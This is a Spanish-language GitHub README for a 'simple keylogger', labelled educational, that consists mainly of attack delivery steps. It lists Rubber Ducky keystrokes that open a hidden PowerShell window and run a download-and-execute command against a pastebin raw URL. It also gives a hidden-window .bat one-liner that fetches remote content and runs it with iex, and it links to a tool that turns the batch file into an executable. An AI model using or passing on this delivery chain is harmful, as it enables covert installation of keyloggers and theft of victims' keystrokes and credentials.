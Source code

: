 # symple-keylogger
Este es un simple keylogger con propositos educativo este proyecto se realizo con ayuda de 3xploit
<p align="center">
  <img src="https://github.com/error404-notfound/symple-keylogger/blob/master/9525007.jpg">  
</p>

* **Video Demostrativo https://www.youtube.com/watch?v=0IBLtcV3T4k&t=106s**

<h1 align="center">Simple Keylogger </h1>
<p align="center">
  Esta herramineta esta realizada con propositos educativos .
</p>

### TESTEADO
* **Windows**


### DATOS DEL RUBBER DUCKY

* **DELAY 1000**
* **GUI r**
* **DELAY 100**
* **STRING powershell -WindowStyle hidden**
* **ENTER**
* **DELAY 1000**
* **STRING IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/')**
* **ENTER**


---------------------------------------------------------------------------------------------
********************************************************************************************
---------------------------------------------------------------------------------------------


### PAGINA EN DONDE SE CARGA EL CODIGO

https://pastebin.com

### PAGINA DESCARGA BAT TO EXE 
http://www.battoexeconverter.com/


---------------------------------------------------------------------------------------------
*******************************************************************************************
--------------------------------------------------------------------------------------------


### DATOS PARA HACER UN EJECUTABLE .BAT

* **powershell -w h -c $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','https://pastebin.com/raw/',$false);$h.send();iex $h.responseText**


----------------------------------------------------------------------------------------------
**********************************************************************************************
----------------------------------------------------------------------------------------------

